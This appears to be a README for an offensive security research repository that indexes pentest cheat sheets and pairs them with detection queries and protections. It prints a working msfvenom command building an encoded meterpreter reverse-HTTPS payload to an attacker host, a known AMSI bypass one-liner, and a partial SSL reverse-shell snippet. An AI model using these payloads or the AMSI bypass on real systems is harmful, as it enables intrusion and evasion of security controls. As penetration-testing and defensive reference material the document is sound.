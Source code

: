 # Security Research Repository 🔐

> **Comprehensive collection of offensive security techniques, defensive countermeasures, and penetration testing resources**

[![License: MIT](https://img.shields.io/badge/License-MIT-yellow.svg)](https://opensource.org/licenses/MIT)
[![Security Research](https://img.shields.io/badge/Security-Research-red.svg)](https://github.com/yourusername/security-research)
[![Made with ❤️](https://img.shields.io/badge/Made%20with-❤️-red.svg)](https://github.com/yourusername/security-research)

---

## 📚 Repository Contents

This repository contains battle-tested security resources developed through real-world engagements, CTF competitions, and research. All materials include practical implementations and ethical guidelines.

### Core Resources

| Resource | Description | Key Features |
|----------|-------------|-------------|
| **[MSFVenom Cheatsheet](MSFVenom%20Cheatsheet.md)** | Payload generation guide | • AV evasion techniques<br>• Multi-platform payloads<br>• Handler configurations |
| **[Post-Exploitation Guide](Post%20Exploitation%20Resources%20Guide.md)** | Post-compromise techniques | • Lateral movement tactics<br>• C2 framework comparison<br>• Privilege escalation |
| **[PowerShell Cheatsheet](PowerShell%20Cheatsheet.md)** | Offensive PowerShell reference | • Stealth techniques<br>• System enumeration<br>• Forensics commands |
| **[Python Reverse Shells](Python%20Reverse%20Shell%20Guide.md)** | Reverse shell implementations | • Multi-connection support<br>• SSL encryption<br>• Cross-platform compatibility |
| **[Windows Post-Exploitation](Windows%20Post%20Exploitation%20Cheatsheet.md)** | Windows-specific techniques | • RDP configuration<br>• User creation stealth<br>• Detection evasion |

---

## 🛠️ Usage Guidelines

### Quick Start

1. **Clone repository:**
   ```bash
   git clone https://github.com/yourusername/security-research.git
   cd security-research
   ```

2. **Reference specific guides during engagements**

3. **Use environment variables for payload customization:**
   ```bash
   export RHOST=10.10.15.30 RPORT=443
   python3 stealth_shell.py
   ```

### Ethical Considerations

✅ **Authorized Activities:**
- Authorized testing only
- Respect all legal boundaries
- Obtain written permission
- Document all activities

❌ **Prohibited Activities:**
- Never attack production systems without authorization
- Avoid destructive operations
- No unauthorized access attempts
- Respect privacy and confidentiality

---

## 🌟 Featured Techniques

### Payload Generation (MSFVenom)
```bash
# Windows meterpreter with AV evasion
msfvenom -p windows/x64/meterpreter/reverse_https \
  LHOST=10.2.0.5 LPORT=443 \
  -e x86/shikata_ga_nai -i 15 \
  -f exe -o payload.exe
```

### PowerShell Obfuscation
```powershell
# AMSI bypass with environment variable
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

### Python Reverse Shell
```python
# SSL encrypted shell
import ssl, socket

context = ssl.create_default_context()
context.check_hostname = False
context.verify_mode = ssl.CERT_NONE

sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
ssl_sock = context.wrap_socket(sock)
```

---

## 🛡️ Defensive Countermeasures

### Critical Detection Points

| Technique | Detection Method | SIEM Query |
|-----------|------------------|------------|
| Hidden User Creation | Monitor Event ID 4720 | `event_id:4720 AND user_name:"joker"` |
| RDP Configuration Changes | Registry monitoring | `registry_path:"*Terminal Server* fDenyTSConnections"` |
| PowerShell Obfuscation | Script block logging | `CommandLine:"*amsiInitFailed*"` |
| Reverse Shell Connections | Network anomaly detection | `destination_port:4444 AND process:python.exe` |

### Recommended Protections

- ✅ Enable LAPS for local admin management
- ✅ Implement PowerShell constrained language mode
- ✅ Use network segmentation for critical systems
- ✅ Deploy endpoint detection with behavior analysis
- ✅ Regular security awareness training
- ✅ Implement zero-trust architecture

---

## 📜 Legal Disclaimer

⚠️ **IMPORTANT LEGAL NOTICE**

This repository contains materials exclusively for **authorized security testing and educational purposes**. All techniques should be used in compliance with applicable laws:

- 🔒 **Obtain written permission** before testing any systems
- 🚫 **Never access systems you don't own**
- 🛡️ **Respect privacy and data integrity** at all times
- 📋 **Document all authorized activities**

**The author assumes no liability for misuse of these resources. Unauthorized access to computer systems is illegal and unethical.**

---

